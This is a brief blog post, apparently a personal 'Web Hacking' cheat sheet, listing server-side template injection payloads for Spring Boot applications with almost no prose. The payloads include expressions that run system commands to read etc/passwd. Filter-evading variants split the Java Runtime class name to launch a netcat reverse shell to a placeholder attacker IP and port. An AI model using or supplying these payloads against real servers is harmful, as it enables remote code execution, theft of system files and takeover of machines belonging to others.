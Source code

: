 ```yaml
---
title: ssti
author: janger
date: 2023-09-25
category: Web Hacking
layout: post
---
```


<h1>SSTI(Server Side Template Injection)</h1>

<br>

**Spring Boot SSTI vulnerability**

```
__${7*7}__::.x

${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}

__${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}__::.x

__${(1).TYPE.forName('ja' 'va.lang.Runt' 'ime').getMethods()[6].invoke((1).TYPE.forName('ja' 'va.lang.Runt' 'ime')).exec('busybox nc (Attacker_IP) (Attacker_PORT) -e /bin/sh')}__::.x

__${(1).TYPE.forName('ja'+'va.lang.Runt'+'ime').getMethods()[6].invoke((1).TYPE.forName('ja'+'va.lang.Runt'+'ime')).exec('busybox%20nc%20(Attacker_IP)%20(Attacker_PORT)%20-e%20%2Fbin%2Fsh')}__::.x
```

<br>
